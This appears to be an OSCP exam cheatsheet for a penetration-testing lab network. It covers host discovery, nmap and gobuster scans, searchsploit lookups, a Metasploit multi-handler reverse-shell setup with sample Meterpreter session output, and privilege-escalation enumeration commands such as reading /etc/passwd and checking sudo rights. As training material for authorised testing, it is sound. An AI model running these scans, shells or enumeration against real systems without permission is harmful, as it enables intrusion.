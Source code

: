 # OSCP
OSCP Exam Cheatsheet.

# Index

- [Preparation](#preparation)
- [Recon](#recon) 
- [Preparation](#preparation) 

# Content

### PREPARATION
Kali Wordlists: `/usr/share/wordlists`  
SecLists: https://github.com/danielmiessler/SecLists

Useful Tools:
```bash
$ enum4linux [ target_ip ]	# Enumerate Windows / Samba (SMB) hosts.
```

### RECON
Scan network range for valid IPs/hostnames:  
```bash
i="0"
while [ $i -lt "255" ]
do nslookup 10.11.1.$i 10.11.1.220 | grep -v "NXDOMAIN" | grep name
	i=$[ $i+1 ]
done
```

Nmap port scans:
(NOTE: Heavy scanning may result in ports being filtered/closed - wait <15 minutes to be unbanned)
```bash
$ nmap 10.11.1.71 --top-ports 20 --open	# Top 20 TCP ports scan on initial box
$ nmap 10.11.1.71 -p- -sV		# Complete TCP port scan + service banner grab on each box:
```

Services enum:
* See Services Cheatsheet @ https://github.com/brianlam38/Sec-Cheatsheets/blob/master/Services_Cheatsheet

For each service, check available Nmap scripts:
```bash
$ ls -l /usr/share/nmap/scripts/*ssh*
```

Summarise your recon findings on the target:
* IP / DNS?
* OS?
* Ports (TCP / UDP)?
* Services / Applications?
* Which is the best entry point so far?
* Prioritised list of attack vectors:
	* Explore the web application.
	* Search for vulnerabilities in the known services & applications.
	* Brute force SSH with common & weak credentials.


### DEEPER RECON (SERVICE-LEVEL) - WEBAPP EXAMPLE

Scripts:
```bash
$ curl -i -L 10.11.1.71 						  # Follow re-directs
$ curl 10.11.1.71 -s -L | grep "title\|href" | sed -e 's/^[[:space:]]*//' # Internal/external links
$ gobuster -u http://10.11.1.71/ \					  # Directory brute-force
	   -w /usr/share/seclists/Discovery/Web_Content/common.txt \
	   -s '200,204,301,302,307,403,500' -e
$ gobuster -u http://10.11.1.71/cgi-bin/ \				  # 2nd directory brute-force
	   -w /usr/share/seclists/Discovery/Web_Content/cgis.txt \
	   -s '200,204,403,500' -e
```

Other things to check:
* robots.txt
* social media
* source code (if app is based on open-source code)

Re-evaluate attack surface:
* Any new findings to add to our list of attack vectors?

### FINDING AN EXPLOIT TO USE

Nikto webapp scanner:
```bash
$ nikto -host 10.11.1.71
```

Searchsploit (exploit-db):
```bash
# BASE EXAMPLE
$ searchsploit [options] [search_term1] [search_term2] . . . [search_termN]

# APACHE 2.4.8 EXAMPLE
$ searchsploit apache 2.4 | grep -v '/dos/'
$ searchsploit apache 2.x | grep -v '/dos/'

# APACHE | CGI
$ searchsploit apache cgi | grep -v '/dos/'

# WORKING EXPLOIT CODE FOUND IN:
/usr/share/exploitdb/platforms/linux/remote/34900.py
```

Nmap:
```bash
$ ls -l /usr/share/nmap/scripts/*shellshock*
```

Other areas to find exploit code:
* Google Shellshock POC
* Google one-liners from github

If no good attack vectors / exploit can be found, try a different or more comprehensive wordlist for subdirectory brute-forcing or use a webapp scanner to poke harder at the system.

### USING EXPLOIT CODE

Using the public exploit you found + Metasploit Multi-Handler, you can establish a Meterpreter session with the target.

Metasploit Handler usage w/ public exploit:
```bash
# Set up Metasploit Handler (use multi-handler -> set reverse shell payload -> set variables -> run handler)
$ msfconsole
$ msf > use exploit/multi/handler
$ msf exploit(handler) > set payload windows/meterpreter/reverse_tcp
$ msf exploit(handler) > set LHOST 10.11.0.31
$ msf exploit(handler) > set LPORT 443
$ msf exploit(handler) > run
[*] Exploit running as background job 0.
[*] Started reverse TCP handler on 10.11.0.31:443 

# Execute Public Exploit:
$ python exploit.py [ target_ip ]

# Metasploit Handler (meterpreter session -> background the session -> connect back to session)
[*] Exploit running as background job 0.
[*] Started reverse TCP handler on 10.11.0.31:443 
[*] Sending stage (179267 bytes) to 10.11.1.5
[*] Meterpreter session 0 opened (10.11.0.31:443 -> 10.11.1.5:1199) at 2019-01-07 22:46:33 +1100
meterpreter > help
. . . 
meterpreter > background
msf exploit(ms08_067_netapi) > sessions -i 0
[*] Starting interaction with 0...
meterpreter >
```

You will now have reverse shell.

### PRIVILEGE ESCALATION - ENUM

Get a proper shell:

General privesc guide:
* https://www.reddit.com/r/oscp/comments/9ystub/i_absolutely_suck_at_privilege_escalation/?st=JOQAMPYP&sh=8899be73

Linux privesc:
* https://github.com/ankh2054/linux-pentest/blob/master/linuxprivchecker.py
* https://github.com/rebootuser/LinEnum (automated scan)
* https://tools.kali.org/vulnerability-analysis/unix-privesc-check (Kali tool)
* https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/  

Windows privesc:
* https://github.com/azmatt/windowsEnum (automated scan)
* https://github.com/netbiosX/Checklists/blob/master/Windows-Privilege-Escalation.md
* http://www.fuzzysecurity.com/tutorials/16.html

Questions to ask:
* What user files do we have access to?
* What configurations do we have access to?
* Any incorrect file permissions?
* What programs are custom? Any SUID? SGID?
* What's scheduled to run?
* Any hardcoded credentials? Where are credentials kept?

Privesc Enum:
```bash
# OS? Version? Architecture?
$ cat /etc/*-release
$ uname -i
$ lsb_release -a (Debian)
 
# Who are we? Where are we? What are our sudo privileges?
$ id
$ pwd
$ sudo -l
 
# Other users? Which ones have a valid shell?
$ cat /etc/passwd
$ grep -vE "nologin|false" /etc/passwd
 
# Services running on the box? Network services running?
ps aux
netstat -antup
 
# Whats installed? Kernel?
dpkg -l (Debian)
rpm -qa (CentOS / openSUSE)
uname -a
```

Summarise possible attack vectors / vulnerable services to escalate privileges.

### PRIVILEGE ESCALATION - FINDING EXPLOIT

Use information gathered from enumeration stage to find an exploit for vectors / vulnerable services in your list.





